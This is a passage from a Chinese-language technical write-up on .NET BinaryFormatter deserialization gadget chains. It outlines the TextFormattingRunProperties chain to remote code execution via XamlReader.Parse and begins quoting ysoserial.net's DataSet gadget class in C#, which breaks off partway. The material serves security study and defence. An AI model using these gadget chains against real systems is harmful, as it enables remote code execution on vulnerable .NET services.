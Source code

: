 看见了什么？`XamlReader.Parse(@string)`，那这就接上了我们前文[XmlSerializer](./XmlSerializer.md)中的ObjectDataProvider的链。

![image-20210420103402429](BinaryFormatter.assets/image-20210420103402429.png)

如此一来整个链就通了：

1. 自写一个TextFormattingRunPropertiesMarshal类实现ISerializable接口
2. 在GetObjectData序列化时给ForegroundBrush字段赋值为xaml的payload，并且将对象类型赋值为TextFormattingRunProperties类。
3. 在反序列化时触发反序列化构造函数
4. 反序列化构造函数触发XamlReader.Parse(payload) RCE

限制在于Microsoft.PowerShell.Editor.dll。原作者说明：

> 该库是PowerShell的一部分，该PowerShell已预安装在从Windows Server 2008 R2和Windows 7开始的所有Windows版本中。

## DataSet

看下ysoserial.net的payload

```csharp
[Serializable]
public class DataSetMarshal : ISerializable
{
    byte[] _fakeTable;

    public void GetObjectData(SerializationInfo info, StreamingContext context)
    {
        info.SetType(typeof(System.Data.DataSet));
        info.AddValue("DataSet.RemotingFormat", System.Data.SerializationFormat.Binary);
        info.AddValue("DataSet.DataSetName", "");
        info.AddValue("DataSet.Namespace", "");
        info.AddValue("DataSet.Prefix", "");
        info.AddValue("DataSet.CaseSensitive", false);
        info.AddValue("DataSet.LocaleLCID", 0x409);
        info.AddValue("DataSet.EnforceConstraints", false);
        info.AddValue("DataSet.ExtendedProperties", (System.Data.PropertyCollection)null);
        info.AddValue("DataSet.Tables.Count", 1);
        info.AddValue("DataSet.Tables_0", _fakeTable);
    }

```